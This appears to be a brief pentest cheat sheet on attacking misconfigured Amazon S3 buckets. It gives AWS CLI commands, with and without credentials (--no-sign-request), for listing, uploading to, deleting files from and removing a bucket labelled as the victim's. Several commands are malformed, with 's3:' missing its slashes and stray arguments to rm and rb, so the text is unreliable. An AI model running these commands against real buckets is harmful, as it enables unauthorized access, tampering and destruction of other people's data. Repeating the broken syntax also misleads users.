 ### amazon_s3

*** Bucket is a logical unit of storage in Amazon Web Services (AWS) object storage service, Simple Storage Solution S3. 
Buckets are used to store objects, which consist of data and metadata that describes the data.***

#### awscli install
- pip3 install awscli

#### aws configue if we have data
- aws configure

#### list aws bucket
- aws s3 ls s3://<victim_aws_bucket_name>
***with no creds***
- aws s3 ls s3://<victim_aws_bucket_name> --no-sign-request

#### file upload 
- echo "test" >> file.txt
- aws s3 cp file.txt s3:<victim_aws_bucket_name>/file.txt 
***with no creds***
- aws s3 cp file.txt s3:<victim_aws_bucket_name>/file.txt  --no-sign-request

#### file remove
- aws s3 rm file.txt s3:<victim_aws_bucket_name>/file.txt  
***with no creds***
- aws s3 rm file.txt s3:<victim_aws_bucket_name>/file.txt  --no-sign-request

#### bucket remove
- aws s3 rb file.txt s3:<victim_aws_bucket_name>
***with no creds***
- aws s3 rb file.txt s3:<victim_aws_bucket_name>  --no-sign-request

